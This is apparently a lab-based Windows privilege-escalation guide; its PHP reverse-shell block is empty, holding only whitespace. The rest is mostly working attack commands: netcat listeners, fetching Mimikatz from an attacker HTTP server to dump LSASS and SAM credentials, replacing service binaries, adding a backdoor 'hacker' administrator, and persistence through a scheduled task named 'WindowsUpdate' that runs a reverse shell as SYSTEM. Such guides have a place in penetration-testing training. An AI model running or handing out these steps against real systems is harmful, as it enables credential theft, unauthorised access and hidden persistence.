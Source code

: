 # Windows Privilege Escalation Guide

## Initial Reverse Shell Setup

This is the PHP plugin code we used to get the initial reverse shell:

```php
<?php
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   
?>
```

### Listener Setup

On your Parrot OS (192.168.56.106), set up the listener:

```bash
# Using socat
socat TCP-LISTEN:4444 STDOUT

# Alternative with netcat
nc -nvlp 4444

# With rlwrap for better shell handling
rlwrap -cAr nc -nvlp 4444
```

## WinPEAS Findings Analysis

Key findings from WinPEAS that can be exploited:

> **Critical: WDigest Enabled**
> 
> WDigest is enabled, allowing plaintext password extraction from LSASS memory.

- **UAC Settings:** EnableLUA is set to 0, making UAC bypass easier
- **Cached Credentials:** cachedlogonscount is 10, potential for credential extraction
- **LSA Protection:** Not enabled, easier LSASS memory access
- **AV Detection:** No AV detected on the system

## Mimikatz for Password Extraction

Since WDigest is enabled, use Mimikatz to extract plaintext passwords:

### On Parrot OS (192.168.56.106):

```bash
# Download Mimikatz
wget https://github.com/gentilkiwi/mimikatz/releases/latest/download/mimikatz_trunk.zip -O mimikatz.zip
unzip mimikatz.zip

# Start HTTP server
python3 -m http.server 80
```

### On Target Windows (192.168.56.107):

```cmd
# Download and run Mimikatz
cd C:\Windows\Temp
powershell -c "(New-Object Net.WebClient).DownloadFile('http://192.168.56.106/mimikatz.exe', 'mimikatz.exe')"
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
```

## Alternative: Procdump + Mimikatz

If Mimikatz is detected, dump LSASS and analyze offline:

### On Target:

```cmd
# Download Procdump
powershell -c "(New-Object Net.WebClient).DownloadFile('http://192.168.56.106/procdump.exe', 'procdump.exe')"

# Dump LSASS process
.\procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

### On Parrot OS:

```bash
# Analyze the dump with Mimikatz
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords" "exit"
```

## Impacket Techniques

Using Impacket for privilege escalation:

### Dump SAM and SYSTEM hashes:

```cmd
# On target, save registry hives
reg save hklm\sam sam.hiv
reg save hklm\system system.hiv
reg save hklm\security security.hiv
```

### On Parrot OS, extract hashes:

```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.hiv -system system.hiv LOCAL
```

### PSEXEC for SYSTEM access:

```bash
# If you obtain credentials
python3 /usr/share/doc/python3-impacket/examples/psexec.py administrator@192.168.56.107
```

## Service-Based Privilege Escalation

Check for misconfigured services:

### Find modifiable services:

```cmd
# Check service permissions
accesschk.exe -uwcqv "NT AUTHORITY\LOCAL SERVICE" * /accepteula

# Using built-in tools
wmic service get name,displayname,pathname,startmode | findstr /i /v "C:\Windows\\" | findstr /i /v """
```

### If you find a modifiable service:

```cmd
# Stop the service
net stop "ServiceName"

# Replace the binary
copy /y C:\Windows\Temp\malicious.exe "C:\Path\To\Service\Binary.exe"

# Start the service
net start "ServiceName"
```

## Additional Privilege Escalation Techniques

### 1. AlwaysInstallElevated Check

```cmd
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

### 2. Unattended Installations

```cmd
# Look for unattended installation files
dir /s *unattend*.xml
dir /s *sysprep*.xml
type C:\Windows\Panther\Unattend.xml 2>nul
```

### 3. Stored Credentials

```cmd
# Check cmdkey stored credentials
cmdkey /list

# Check for saved files with passwords
dir /s *pass*.txt *cred*.txt *config*.txt 2>nul
```

### 4. Scheduled Tasks

```cmd
# List scheduled tasks
schtasks /query /fo LIST /v

# Using PowerShell
Get-ScheduledTask | Where-Object {$_.State -ne "Disabled"} | ForEach-Object {($_.TaskName)}
```

## Post-Exploitation

After gaining privileged access:

### 1. Dump all credentials

```cmd
# With Mimikatz
mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" "lsadump::secrets" "sekurlsa::logonpasswords" "exit"
```

### 2. Enable RDP access

```cmd
# Enable RDP
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

# Add firewall rule
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes

# If you need to add a user
net user hacker Password123! /add
net localgroup administrators hacker /add
```

### 3. Maintain persistence

```cmd
# Create a scheduled task for persistence
schtasks /create /tn "WindowsUpdate" /tr "C:\Windows\Temp\reverse_shell.exe" /sc onstart /ru SYSTEM
```